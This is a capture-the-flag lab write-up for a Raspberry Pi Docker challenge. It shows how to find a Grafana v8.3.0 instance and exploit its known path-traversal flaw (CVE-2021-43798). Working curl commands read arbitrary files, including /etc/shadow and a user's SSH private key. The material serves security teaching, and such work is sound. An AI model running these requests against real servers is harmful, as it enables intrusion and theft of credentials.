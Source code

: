## CTF-pi - Outdated software - Grafana 2 - Difficulty: ★★★☆☆

### Scenario 

Grafana verison has changed, how about this time, is it secure?

There's no login provided for this challenge, but do we even need it?

### Prerequisites

Your Raspberry Pi has remote connection set up via Raspberry Pi Connect or VNC.

Have cloned this `CTF-pi` repository and are inside the `ctfpi0_0` directory.

`docker compose` works.


### Objective

Run within this directory on Raspi: `docker compose up -d` (Using remote shell)

`hostname -I` to find out which IP the service is running on and visit it in your browser. Your main computer or even a phone can access this, as long as they are within the same network as Raspberry Pi.

Which port is Grafana running on by default? Find out.

Find the Grafana version.

Find an existing vulnerability and exploit it.

There's plenty of sensitive files in Linux, find which one contains the flag.

Once you have found the flag check if they match: `answers/flag.txt`.


### Steps to complete

Google reveals that default Grafana port is 3000, and `hostname -I` reveals the IP, in my case the address to the service is: `10.10.10.67:3000`.

Enter this into your URL bar of your browser and you land on Grafana login page. 

We don't know the username or password, how do we find the version? I found them from page source! "subTitle":"Grafana v8.3.0

Google for Grafana exploits for the verion it is currently running on.

https://vulncheck.com/blog/grafana-cve-2021-43798

Made script that does everything automatically: https://www.exploit-db.com/exploits/50581

I ran this:
```
curl 'http://10.10.10.67:3000/public/plugins/zipkin/../../../../../../../../<path>/<filename>' --path-as-is --output text.txt

```
There's files like /etc/passwd; /etc/shadow ; grafana configuration files ; grafana.db ; /home/grafana/.ssh/id_rsa, let's try the last one.

We can read the file contents from the saved `text.txt` file: `cat text.txt`

```
curl 'http://10.10.10.67:3000/public/plugins/zipkin/../../../../../../../../home/grafana/.ssh/id_rsa' --path-as-is --output text.txt

```

What we just did is arbitrary path traversal, the user can input however many ../ they want so they get to the root directory, there's plenty of sensitive files like databases or device users with their password hashes, also private ssh keys, if attacker can reach these, then there's a high chance they can take control of everything on the Rasperry Pi in this case.

### Cleaning up

`docker compose down`